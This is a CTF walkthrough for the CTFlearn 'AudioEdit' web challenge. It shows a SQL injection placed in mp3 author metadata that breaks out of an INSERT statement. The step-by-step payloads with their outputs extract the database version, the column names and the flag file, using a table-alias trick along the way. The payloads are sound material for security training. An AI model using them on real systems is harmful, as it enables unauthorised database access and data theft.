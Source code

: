 # Solution

#### Step-1:
After I visited http://web.ctflearn.com/audioedit/, I got this.

#### Step-2:
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.

We figured the insertion statement looked something like this:

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);
```

In order to do an SQL-injection we have to create a special author and title field. I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data. In order to inject and maintain a valid INSERTION statement you can create a `mp3` with the following meta data:

```sql
title  = "" (leer)
author = a', (SELECT @@version))-- -b
```

which creates the following statement

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);
```

The `a` in the beginning and the `b` in the end were necessary because the first and last character were truncated.

This gave us the database version: `5.5.49-0ubuntu0.14.04.1`

#### Step-3:
Next we wanted to know the database name:

```sql
author = a', (SELECT database()))-- -b:
audioedit
```

And of course the column names:

```sql
author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
with x in range(0,3):
id
file
author
title
```

So finally we wanted see whats in there:

```sql
author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
```

... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time. Thanks to SQLs.

```sql
author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
ABCTF
author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
flag
author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
supersecretflagf1le.mp3
```

#### Step-4:
Finally the exploited URL: https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3